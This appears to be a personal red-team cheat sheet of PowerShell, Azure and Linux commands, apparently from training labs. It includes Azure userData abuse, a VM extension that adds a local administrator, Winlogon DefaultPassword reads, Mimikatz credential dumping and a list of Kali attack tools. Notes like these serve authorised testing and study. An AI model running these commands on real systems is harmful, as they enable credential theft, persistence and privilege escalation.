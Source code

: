 **AZURE**
- **Check UserData**
```
$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text";[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```
- **Modify UserData**
```
## It is also possible to modify user data with permissions "Microsoft.Compute/virtualMachines/write" on the target VM. Any automation or scheduled task reading commands from user data can be abused!

$data = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("whoami"))
$accessToken = (Get-AzAccessToken).Token
$Url = "https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/jumpvm?api-version=2021-07-01"
$body = @(
@{
location = "Germany West Central"
properties = @{
userData = "$data"
}
}
) | ConvertTo-Json -Depth 4

$headers = @{
Authorization = "Bearer $accessToken"
}

## Execute Rest API Call

$Results = Invoke-RestMethod -Method Put -Uri $Url -Body $body -Headers $headers -ContentType 'application/json'
```
- **Check VM Extensions**
```
Get-AzVMExtension -ResourceGroupName Research -VMName infradminsrv
```
- **Set VM Extensions**
```
## Following permissions are required to create a custom script extension and read the output: "Microsoft.Compute/virtualMachines/extensions/write" and "Microsoft.Compute/virtualMachines/extensions/read"

Set-AzVMExtension -ResourceGroupName Research -VMName infradminsrv -ExtensionName ExecCmd -Location germanywestcentral -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users student87 Stud87Password@123 /add /Y; net localgroup administrators student87 /add /Y"}'
```


**Random**
```
Get-AzRoleAssignment | select scope,objectid,DisplayName,objecttype,RoleDefinitionName,RoleDefinitionId | ft

xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share

script -qc /bin/bash /dev/null
```
**Python3 VENV**
```
python3 -m venv /path/of/venv

source /path/to/venv/bin/activate

deactivate (To exit)
```
**Hide Error in PowerShell**
```
$ErrorActionPreference= 'silentlycontinue'
```
**Filtering Powershell objects**
```
Get-UserProperty -Properties logoncount | Where logoncount -ne 0

Get-ObjectAcl -SamAccountName Control174User –ResolveGUIDs | Where-Object {$_.IdentityReference -like "RDP*"} 
```
**Creds**
```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "DefaultPassword"
Invoke-Mimikatz -DumpCreds/-DumpCerts 
```
**Service Ticket Combos - https://adsecurity.org/?p=2011**

**DC Time Sync**
```
proxychains net time set -S 172.16.3.5
```

**Expand Property**
```
(get-azvm | select -ExpandProperty networkprofile).NetworkInterfaces.id 
```

**SnapLabs Firefox Copy-Paste Support**
```
about:config -> dom.events.testing.asyncClipboard
```
**Linux Easy PTTY**
```
script -qc /bin/bash /dev/null
```

**Kali-Additional-Tools**
Tools which I clone in a new Kali image
```
cd /opt;for i in \`ls\`;do cd $i;pwd;sudo git pull;cd -;done
ADTools/
binaryninja
ghidra_9.1.2_PUBLIC
Ghostpack-CompiledBinaries
GitDorker
GitTools
impacket
Mobile-Security-Framework-MobSF
ngrok
privilege-escalation-awesome-scripts-suite
rengine
SprayingToolkit
starkiller
ysoserial
XSStrike
kerbrute
```
